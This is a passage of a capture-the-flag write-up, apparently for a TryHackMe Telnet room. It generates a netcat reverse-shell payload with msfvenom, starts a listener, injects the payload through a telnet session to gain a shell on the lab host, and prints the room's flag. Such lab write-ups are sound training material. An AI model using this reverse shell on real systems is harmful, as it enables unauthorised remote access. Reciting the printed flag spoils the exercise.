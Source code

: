 We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:
```bash
$ msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

# -p = payload
# lhost = our local host IP address (this is your machine's IP address)
# lport = the port to listen on (this is the port on your machine)
# R = export the payload in raw format
```

What word does the generated payload start with?
```
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 94 bytes
mkfifo /tmp/qvfmt; nc 10.11.25.205 4444 0</tmp/qvfmt | /bin/sh >/tmp/qvfmt 2>&1; rm /tmp/qvfmt
```
It's **mkfifo**.

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:
```bash
$ nc -lvp [listening port]
```

What would the command look like for the listening port we selected in our payload?
```bash
$ nc -lvp 4444
```

Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!
```bash
$ telnet 10.10.230.252 8012   

Trying 10.10.230.252...
Connected to 10.10.230.252.
Escape character is '^]'.
.RUN mkfifo /tmp/qvfmt; nc 10.11.25.205 4444 0</tmp/qvfmt | /bin/sh >/tmp/qvfmt 2>&1; rm /tmp/qvfmt
```

Success! What is the contents of flag.txt?
```bash
$ nc -lvp 4444                                                                                1 ⨯
listening on [any] 4444 ...
ls
10.10.128.76: inverse host lookup failed: Host name lookup failure
connect to [10.11.25.205] from (UNKNOWN) [10.10.128.76] 53498
flag.txt
cat flag.txt
THM{y0u_g0t_th3_t3ln3t_fl4g}
```
The flag is **THM{y0u_g0t_th3_t3ln3t_fl4g}**.
